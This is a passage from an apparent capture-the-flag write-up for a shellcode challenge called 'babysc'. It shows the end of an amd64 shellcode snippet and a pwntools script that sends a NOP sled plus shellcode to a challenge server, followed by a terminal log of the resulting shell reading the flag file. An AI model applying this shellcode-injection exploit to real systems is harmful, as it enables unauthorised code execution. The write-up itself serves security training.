```python
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
"""

p = remote("34.133.69.112", 10001)
payload = asm("nop") * 850 + asm(shellcode, arch='amd64')
p.sendlineafter("Enter 0x1000", payload)
p.interactive()

```

Then search for the flag

```bash
┌──(zeqzoq㉿zeqzoq)-[/mnt/c/Users/hzqzz/Downloads/UMCS/pwn-babysc]
└─$ python exploit.py
[+] Opening connection to 34.133.69.112 on port 10001: Done
[*] Switching to interactive mode
Executing shellcode!

$ whoami
pwnuser
$ ls -la
total 40
drwxr-x--- 1 pwnuser pwnuser  4096 Apr 10 20:37 .
drwxr-xr-x 1 root    root     4096 Apr 10 17:16 ..
-rw-r--r-- 1 pwnuser pwnuser   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 pwnuser pwnuser  3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 pwnuser pwnuser   807 Jan  6  2022 .profile
-rwxrwxr-x 1 root    root    16360 Apr 10 20:37 babysc
$ cd /
$ ls -la
total 72
drwxr-xr-x   1 root root 4096 Apr 10 20:40 .
drwxr-xr-x   1 root root 4096 Apr 10 20:40 ..
-rwxr-xr-x   1 root root    0 Apr 10 20:40 .dockerenv
lrwxrwxrwx   1 root root    7 Apr  4 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Apr 10 20:40 dev
drwxr-xr-x   1 root root 4096 Apr 10 20:40 etc
-rw-rw-r--   1 root root   51 Apr 10 20:37 flag
drwxr-xr-x   1 root root 4096 Apr 10 17:16 home
lrwxrwxrwx   1 root root    7 Apr  4 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr  4 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr  4 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr  4 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr  4 02:03 media
drwxr-xr-x   2 root root 4096 Apr  4 02:03 mnt
drwxr-xr-x   2 root root 4096 Apr  4 02:03 opt
dr-xr-xr-x 185 root root    0 Apr 10 20:40 proc
drwx------   2 root root 4096 Apr  4 02:10 root
drwxr-xr-x   5 root root 4096 Apr  4 02:10 run
lrwxrwxrwx   1 root root    8 Apr  4 02:03 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr  4 02:03 srv
dr-xr-xr-x  13 root root    0 Apr 10 20:40 sys
drwxrwxrwt   1 root root 4096 Apr 10 17:16 tmp
drwxr-xr-x   1 root root 4096 Apr  4 02:03 usr
drwxr-xr-x   1 root root 4096 Apr  4 02:10 var

$ cat /flag
umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```
